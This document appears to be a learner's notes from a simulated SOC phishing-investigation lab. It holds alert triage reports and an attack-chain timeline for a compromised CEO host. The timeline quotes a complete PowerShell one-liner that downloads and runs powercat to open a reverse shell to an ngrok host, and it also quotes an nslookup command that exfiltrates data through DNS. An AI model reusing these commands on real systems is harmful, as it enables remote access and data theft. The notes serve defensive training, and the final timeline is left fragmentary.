

# SOC Investigation Phishing Simulation

1000

Suspicious email from external domain.

Low

Phishing

Sep 5th 2026 at 13:46

Description:

A suspicious email was received from an external sender with an unusual top level domain. Note from SOC Lead: This detection rule still needs fine-tuning.

datasource:

email

timestamp:

09/05/2026 13:44:04.992

subject:

Inheritance Alert: Unknown Billionaire Relative Left You Their Hat Fortunes

sender:

eileen@trendymillineryco.me

recipient:

support@tryhatme.com

attachment:

None

content:

A long lost billionaire relative has left you their secret hat empire To claim your inheritance send us your banking details immediately

direction:

inbound

index=* | spath datasource | search datasource=email| spath recipient | search [recipient="support@tryhatme.com](mailto:recipient=%22support@tryhatme.com)"

Report:

**Time of activity:** 09/05/2026 13:44:04.992

**List of Affected Entities:** support@tryhatme.com

**Reason for Classifying as True Positive:** The user support email "support@tryhatme.com" received a suspicious phishing mail from "eileen[@]trendymillineryco[.]me" with subject " Inheritance Alert: Unknown Billionaire Relative Left You Their Hat Fortunes" and no URL or Attachments.

The mail showed a urgent tone asking for bank details of the user.

No interaction evidence was recorded with sender domain.

**Reason for Not Escalating the Alert:** No interaction evidence with the sender.

**Recommended Remediation Actions:** Block "eileen[@]trendymillineryco[.]me"

**List of Attack Indicators:** Urgent Tone, suspicious domain, social engineering

1001

Suspicious Parent Child Relationship

Low

Process

Sep 5th 2026 at 13:48

Description:

A suspicious process with an uncommon parent-child relationship was detected in your environment.

datasource:

sysmon

timestamp:

09/05/2026 13:46:28.992

event.code:

1

host.name:

win-3459

process.name:

TrustedInstaller.exe

process.pid:

3577

process.parent.pid:

3506

process.parent.name:

services.exe

process.command_line:

C:\Windows\servicing\TrustedInstaller.exe

process.working_directory:

C:\Windows\system32\

event.action:

Process Create (rule: ProcessCreate)

index=* | spath datasource | search datasource=sysmon|search "[host.name](http://host.name/)"="win-3459"

services.exe → TrustedInstaller.exe

C:\Windows\system32\

| Michelle Smith | Legal | [michelle.smith@tryhatme.com](mailto:michelle.smith@tryhatme.com) | win-3459 |
| --- | --- | --- | --- |

**Time of Activity:** 09/05/2026 13:46:28.992

**List of Related Entities:** Michelle Smith(Legal), win-3459

**Reason for Classifying as False Positive:** The user Michelle Smith(Legal)'s system "win-3459" created a parent-child process of  "services.exe → TrustedInstaller.exe" which triggered "Suspicious Parent Child Relationship" Alert.

According to SIEM Logs the Process was executed from "**process.working_directory**: C:\Windows\system32\" with Process command line "process. command_line: C:\Windows\servicing\TrustedInstaller.exe".

The evidence indicate a Microsoft update process and  show no evidence of suspicious actions.

1002

Suspicious Parent Child Relationship

Low

Process

Sep 5th 2026 at 13:50

Description:

A suspicious process with an uncommon parent-child relationship was detected in your environment.

datasource:

sysmon

timestamp:

09/05/2026 13:48:52.992

event.code:

1

host.name:

win-3451

process.name:

taskhostw.exe

process.pid:

3585

process.parent.pid:

3653

process.parent.name:

svchost.exe

process.command_line:

taskhostw.exe KEYROAMING

process.working_directory:

C:\Windows\system32\

event.action:

Process Create (rule: ProcessCreate)

index=* | spath datasource | search datasource=sysmon|search "[host.name](http://host.name/)"="win-3451"

| Miguel O'Donnell | Sales | [miguel.odonnell@tryhatme.com](mailto:miguel.odonnell@tryhatme.com) | win-3451 |
| --- | --- | --- | --- |

svchost.exe → taskhostw.exe

**Time of Activity:** 09/05/2026 13:48:52.992

**List of Related Entities:** Miguel O'Donnell(Sales), win-3451

**Reason for Classifying as False Positive:** The user Miguel O'Donnell(Sales)'s system win-3451 create a process "svchost.exe → taskhostw.exe" at 09/05/2026 13:48:52.992 which raised "Suspicious Parent Child Relationship" alert.

According to SIEM logs the parent and child process ran from    "**process.working_directory**: C:\Windows\system32\" and with    "**process.command_line**: taskhostw.exe KEYROAMING".

The provide evidence show no suspicious actions from the processes.

Assigned alert(s)

Write case report

1025

Suspicious Parent Child Relationship

High

Process

Sep 5th 2026 at 14:21

Description:

A suspicious process with an uncommon parent-child relationship was detected in your environment.

datasource:

sysmon

timestamp:

09/05/2026 14:19:22.992

event.code:

1

host.name:

win-3450

process.name:

nslookup.exe

process.pid:

5520

process.parent.pid:

3728

process.parent.name:

powershell.exe

process.command_line:

"C:\Windows\system32\nslookup.exe" UEsDBBQAAAAIANigLlfVU3cDIgAAAI.haz4rdw4re.io

process.working_directory:

C:\Users\michael.ascot\downloads\exfiltration\

event.action:

Process Create (rule: ProcessCreate)

index=* | spath datasource | search datasource=sysmon|search "[host.name](http://host.name/)"="win-3450"

1005 → 1006 → 1020  1022 1023 1024  1025 1026  1027 1028 1029 to 1034

Email received:
at    **timestamp**: 09/05/2026 13:53:59.992

Phishing email alert : 1005

09/05/2026 13:54:12.99209/05/2026 13:54:12.992

With attachement:    **attachment**: ImportantInvoice-Febrary.zip

hash: md5 : 332ffb18aa5c12126e4befd02388a6be

After extraction: 

invioce.pdf.lnk
md5 hash: ed1dc2d678743fcbedf0d743e27d0362

AT    user interacted with the file in outlook.exe

**timestamp**: 09/05/2026 14:14:06.992

At    **timestamp**: 09/05/2026 14:14:09.992 DNS query

Reprot for 1005

**Time of activity:** 09/05/2026 13:54:12.992

**List of Affected Entities:** Michael Ascot(CEO), michael.ascot@tryhatme.com, win-3450

**Reason for Classifying as True Positive:**  The user Michael Ascot (CEO) received a suspicious phishing mail on "michael[.]ascot[@]tryhatme[.]com" from a suspicious domain "john@hatmakereurope.xyz" . The mail subject "FINAL NOTICE: Overdue Payment - Account Suspension Imminent" and a urgent tone . The mail contained no URL and 1 attachment - "ImportantInvoice-Febrary.zip" hash md5 : "332ffb18aa5c12126e4befd02388a6be".

The extracted file contained a link file "invioce[.]pdf[.]lnk" md5 hash: "d1dc2d678743fcbedf0d743e27d0362". The file was flagged as malicious by TryDectectThis Platform.

At sysmon log suggest the user intrated with link at  **timestamp**: 09/05/2026 14:14:06.992 via outlook.exe

At    **timestamp**: 09/05/2026 14:14:09.992 a DNS query was made according to sysmon log.

With the provided evidence this alert is the starting of attack chain for the compromise of host "win-3450"

This alert is related to 1005, 1006, 1020, 1022, 1023, 1024, 1025, 1026, 1027, 1028, 1029 to 1034

**Reason for Escalating the Alert:** According to the evidence this alert is the spear phishing and start phase of the attack chain on compromise of host "win-3450"

**Recommended Remediation Actions:**  Isolation of host win-3450, credential rotation of affected account, inform the affected user,  initialization of incident response process.

**List of Attack Indicators:** Urgent tone, suspicious attachment , irregular domain

  At  **timestamp**: 09/05/2026 14:14:10.992 DNS inquery:  [2.tcp.ngrok.io](http://2.tcp.ngrok.io/)

Command and control

**dns.answers.data**

: 3.22.53.161

**dns.question.name**

: 2.tcp.ngrok.io

**dns.resolved_ip**

: 3.22.53.161

   At **timestamp**: 09/05/2026 14:14:18.992 Powershell process creation

   **process.command_line**: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 2.tcp.ngrok.io -p 19282 -e powershell"

Parent name Explorer.exe → powershell.exe 

Reverseshell establishing:

At    **timestamp**: 09/05/2026 14:14:19.992

 At  **timestamp**: 09/05/2026 14:14:34.992

At    **timestamp**: 09/05/2026 14:14:42.992

At    **timestamp**: 09/05/2026 14:14:42.992

   **timestamp**: 09/05/2026 14:15:03.992

   **timestamp**: 09/05/2026 14:17:17.992 Exfiltration

Robocop.exe    **timestamp**: 09/05/2026 14:18:11.992

AT exfiltration file creation 

At    **timestamp**: 09/05/2026 14:18:22.992 Defense evation 

At    **timestamp**: 09/05/2026 14:22:54.992 registry key modified

